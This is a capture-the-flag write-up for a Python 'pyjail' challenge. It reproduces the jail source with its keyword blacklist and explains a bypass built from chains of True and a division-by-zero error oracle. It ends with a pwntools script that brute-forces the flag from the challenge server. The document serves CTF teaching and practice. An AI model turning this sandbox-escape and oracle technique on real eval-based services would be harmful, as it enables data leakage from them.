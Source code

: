 # Wacky Recipe

Category: MISC

Points: 152

Solves: 66

>Ok nice

### Solution

```py
#!/usr/bin/env python3
flag = open('flag.txt').read()

print("Welcome to the jail! It is so secure I even have a flag variable!")
blacklist=['0','1','2','3','4','5','6','7','8','9','_','.','=','>','<','{','}','class','global','var','local','import','exec','eval','t','set','blacklist']
while True:
	inp = input("Enter input: ")
	for i in blacklist:
		if i in inp:
			print("ok nice")
			exit(0)
	for i in inp:
		if (ord(i) > 125) or (ord(i) < 40) or (len(set(inp))>17):
			print("ok nice")
			exit(0)
	try:
		eval(inp,{'__builtins__':None,'ord':ord,'flag':flag})
		print("ok nice")
	except:
		print("error")
```

Looks like yet another pyjail with a blacklist. Furthermore, `sp ! " # $ % & ' ~` and non ascii chars are also banned. We also have a length restriction for 17 **unique** (this is important) characters with `len(set(inp))>17`. Finally, our input will be evaled but with no builtins but `ord` and `flag` will be defined.

From this, we can assume that we need to leak characters of the flag as we only have `flag` and `ord` (which tells us the ascii value of a char). Also, even though builtins are removed, we can still use [python keywords](https://www.w3schools.com/python/python_ref_keywords.asp), eg `(ord)is(ord)` would return `True`. Looking through the keywords, the most useful would be `True` as we can treat it as the number `1` and it won't be banned (uppercase T clutch :pray:). eg `flag[True]` would return the 2nd element. Now, we also see that `+` sign isn't banned either so we can easily index every element in the flag with `flag[True+...+True]` (We can get `flag[0]` with `flag[False]` but this isn't needed). Since we are repeating `True` over and over again we only use 11 unique chars at this point `flag`, `True`, `[]+`.

But if we have the chars of the flag, how do we leak information from them. My first thought was to leak info through errors, since we would get `error` instead of `ok nice`. To do this we can use `Division by Zero` error (assert is banned due to lowercase t). For example, if we have the char `i` we can get an error with `1/(ord('i')-105)` since the bottom would evaluate to `0`. So to do this with the flag we could do `1/(ord(flag[idx])-guess)` and when we get an error, we'll know the ascii value for `flag[idx]`. Although numbers are banned, with can replace `1` and our `guess` with a chain of `True` again. We also will only introduce 6 more unique chars with `od` (`r` is in `True`) and `()/-`, getting us perfectly to 17 unique chars. So our final payload will be:

```py
True/(ord(flag[True+...+True])-(True+...+True))
```

We can write a simple script to test all chars:

```py
from pwn import *

rc = remote("ok-nice.chal.imaginaryctf.org", 1337)
flag = "i"
# index of flag to text
idx = 1
while True:
    # loop through possible ascii value range
    for i in range(30,128):
        rc.recvuntil(b"Enter input: ")
        # format payload with idx True's for flag index and i True's for ascii value
        payload = "True/(ord(flag[True" + "+True"*(idx-1) + "])-(True" + "+True"*(i-1) + "))"
        payload = bytes(payload, "ascii")
        rc.sendline(payload)
        # if error then we know it's the correct ascii value
        if rc.recvline().strip() == b"error":
            flag+=chr(i)
            break

    idx+=1
    print(flag)
    if(flag[-1] == "}"): break
```

```
[+] Opening connection to ok-nice.chal.imaginaryctf.org on port 1337: Done
ic
ict
...
ictf{0k_n1c3_7f4d3e5a6b
ictf{0k_n1c3_7f4d3e5a6b}
```

ok nice, we got the flag.

### Flag

```ictf{0k_n1c3_7f4d3e5a6b}```